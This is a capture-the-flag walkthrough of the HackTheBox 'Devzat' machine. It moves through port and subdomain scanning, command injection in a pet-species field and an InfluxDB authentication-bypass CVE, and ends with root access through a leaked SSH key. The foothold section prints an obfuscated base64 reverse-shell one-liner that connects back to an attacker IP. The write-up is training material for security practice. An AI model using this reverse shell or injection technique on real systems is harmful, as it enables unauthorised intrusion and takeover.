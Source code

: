 ```yaml
---
title: "Hackthebox Devzat"
date: 2022-03-15T23:26:29+05:30
draft: false
---
```



# Enumeration

## TCP Port Scan
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://devzat.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=3/10%Time=622A1FFB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web server enumeration

From the nmap output, we can see that the port 80 is redirecting to [http://devzat.htb](http://devzat.htb). We will need to add the hostname `devzat.htb` on our `/etc/hosts` file to be able to visit the website.

![](/images/img-hackthebox-devzat-0.png)

We also get an email: `patrick@devzat.htb` on the website.

## Other service enumeration

We have a SSH service at port 8000 While trying to connect, if you get this error message:
```bash
Unable to negotiate with 10.10.11.118 port 8000: no matching host key type found. Their offer: ssh-rsa
```
Add the following line to `/etc/ssh/ssh_config` file to fix the issue:
```bash
HostKeyAlgorithms +ssh-rsa,ssh-dss
```
![](/images/img-hackthebox-devzat-1.png)

Logging in, we see it is a chatroom over SSH. It is the [devzat](https://github.com/quackduck/devzat) chat application. It accepts different syntax options for the text such as:

-   `*text*` -> Italic
-   `_text_` -> Italic
-   `**text**` -> Bold
-   `~~text~~` -> strikethrough

![](/images/img-hackthebox-devzat-2.png)

This made me check for other ways I can play with the text. In this process, I found out that URLs were shown in the markdown format of `[link text](URL of link)` For example: `http://example.com` would become `[http://example.com](http://example.com)`

In markdown, we can include remote images with the syntax of `![](URL of image)`. I tried to fetch remote files with this technique and was successful in making a server side request to my python http server. This can be a potential SSRF attack surface.

![](/images/img-hackthebox-devzat-3.png)

![](/images/img-hackthebox-devzat-4.png)

However, I couldn’t do anything beyond making a simple get request. So I’ll move towards subdomain enumeration.

## Subdomain enumeration:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -o ffuf-vhosts.out -u [http://devzat.htb](http://devzat.htb) -H -fw 18
```
Found subdomain: `pets.devzat.htb`

![](/images/img-hackthebox-devzat-5.png)

The website takes in Pet name and Pet species. The pet species can be selected from a dropdown list containing different available species on the website’s backend. After adding the pet, the website displays the relevant text for that species.

Let’s check the request on Burpsuite:

![](/images/img-hackthebox-devzat-6.png)

After playing with the parameters, we can successfully get command injection. Try the following payload as shown below on the species parameter:

![](/images/img-hackthebox-devzat-7.png)

Since we added the `sleep 4` command, the request takes 4 seconds as expected.

# Exploitation

## Foothold

I used the following reverse shell to get a shell on the system:
```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvODAgMD4mMQ== | base64 -d | bash
```
![](/images/img-hackthebox-devzat-8.png)

After getting a simple shell, we can get an encrypted SSH shell with the SSH private key found at `~/.ssh/id_rsa`.

![](/images/img-hackthebox-devzat-9.png)

## Lateral movement

There are two user accounts on the system:

-   patrick
-   catherine

Logging in as both patrick and catherine, we see their private chat logs on the devzat chatroom:

![](/images/img-hackthebox-devzat-10.png)

Checking the chat logs on the devzat chatroom as patrick, we can see that there were discussions of patrick and admin about influxdb instance.

Using `netstat`, we can see that the influxdb port 8086 is open:

![](/images/img-hackthebox-devzat-11.png)

To identify the InfluxDB version, we use `curl` and check the `X-Influxdb-Version` header.

![](/images/img-hackthebox-devzat-12.png)

> InfluxDB version: 1.7.5 

#### Exploiting CVE-2019–20933

Doing a quick google search, I found that this version is vulnerable to an authentication bypass vulnerability (CVE-2019–20933) in Influxdb’s authenticate function due to an empty shared secret.

There is a public exploit for this vulnerability available on Github [https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

We will use this exploit. First we need to get a SSH port forward of port 8086 to our attacker machine, and then we can run the exploit
```bash
ssh -L 8086:127.0.0.1:8086 patrick@devzat.htb -i patrick-id_rsa -fN
```
![](/images/img-hackthebox-devzat-13.png)
We got passwords of three users from the database:

![](/images/img-hackthebox-devzat-14.png)

We can switch to user catherine with her password `woBeeYa*************************`

## Privilege escalation to Root

From the chat logs we found earlier, it was mentioned that there were source code available in the backups.

![](/images/img-hackthebox-devzat-15.png)

Download these zip files into our local machine and extract them. Using `grep`, we found a password `CeilingCat******************` in the backups

![](/images/img-hackthebox-devzat-16.png)

In the local dev instance of devzat, we can see a `/file` command that isn't present in the production environment running on port 8000. It requires a password to preview the file.

![](/images/img-hackthebox-devzat-17.png)

Let’s use the password that we found in the source code. We now have the root user’s private key and can get a shell as root.

![](/images/img-hackthebox-devzat-18.png)

We just need to save the SSH private key and SSH log in as root with that key file. Getting a shell as root is as simple as this:

![](/images/img-hackthebox-devzat-19.png)
Make sure to clean up your files in the end :)

> Originally published on https://manash01.medium.com/hackthebox-devzat-4520e4808286
